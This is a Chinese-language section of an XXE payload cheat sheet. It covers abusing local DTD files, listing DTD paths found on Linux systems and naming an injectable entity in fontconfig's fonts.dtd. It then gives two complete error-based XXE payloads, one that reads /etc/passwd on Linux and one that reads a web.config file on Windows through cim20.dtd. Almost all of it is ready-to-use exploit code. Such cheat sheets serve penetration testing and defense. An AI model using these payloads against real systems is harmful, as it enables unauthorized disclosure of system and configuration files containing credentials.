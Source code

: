 - [GoSecure/dtd-finder](https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md) - 使用这些本地DTD生成XXE有效负载的DTD列表。

#### Linux本地DTD

Linux系统上已存储的DTD文件简短列表；使用`locate .dtd`列出：

```xml
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/share/xml/svg/svg10.dtd
/usr/share/xml/svg/svg11.dtd
/usr/share/yelp/dtd/docbookx.dtd
```

文件`/usr/share/xml/fontconfig/fonts.dtd`在第148行有一个可注入的实体`%constant`：`<!ENTITY % constant 'int|double|string|matrix|bool|charset|langset|const'>`

最终有效负载变为：

```xml
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">
    <!ENTITY % constant 'aaa)>
            <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
            <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///patt/&#x25;file;&#x27;>">
            &#x25;eval;
            &#x25;error;
            <!ELEMENT aa (bb'>
    %local_dtd;
]>
<message>Text</message>
```

#### Windows本地DTD

来自[infosec-au/xxe-windows.md](https://gist.github.com/infosec-au/2c60dc493053ead1af42de1ca3bdcc79)的载荷。

- 披露本地文件

  ```xml
  <!DOCTYPE doc [
      <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
      <!ENTITY % SuperClass '>
          <!ENTITY &#x25; file SYSTEM "file://D:\webserv2\services\web.config">
          <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file://t/#&#x25;file;&#x27;>">
          &#x25;eval;
          &#x25;error;
        <!ENTITY test "test"'
      >
      %local_dtd;
    ]><xxx>anything</xxx>
  ```
